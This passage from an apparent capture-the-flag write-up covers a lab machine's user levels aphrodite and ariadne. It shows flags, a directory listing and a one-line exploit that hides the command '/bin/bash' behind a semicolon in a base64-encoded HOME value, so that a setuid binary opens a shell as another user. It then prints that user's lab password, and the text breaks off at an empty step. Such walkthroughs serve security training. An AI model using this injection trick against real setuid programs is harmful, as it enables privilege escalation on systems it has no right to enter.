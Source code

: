## User - aphrodite

### flag - 06

```plaintext
^fmPlsDByrwmEpRAKgeP^
```

### 任务目标

```plaintext title="mission.txt"
The user ariadne knows what we keep in our HOME.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root      aphrodite 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 aphrodite aphrodite  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aphrodite aphrodite 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 aphrodite aphrodite  807 Apr 23  2023 .profile
-r--r----- 1 ariadne   ariadne     21 Jul 26  2023 ariadne_pass.txt
-rw-r----- 1 root      aphrodite   22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      aphrodite  16K Jul 26  2023 homecontent
-rw-r----- 1 root      aphrodite  185 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
aphrodite@hades:/pwned/aphrodite$ export HOME=$(echo L3B3bmVkL2FwaHJvZGl0ZTsvYmluL2Jhc2g= | base64 -d);./homecontent
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
ariadne@hades:/pwned/aphrodite$ cat ariadne_pass.txt 
iNgNazuJrmhJKWixktzk
```

## User - ariadne

### flag - 07

```plaintext
^FuGFaFNhtKNxUInxAtd^
```

### 任务目标

```plaintext title="mission.txt"
The user arete lets us use cp on her behalf.
```

### 行动
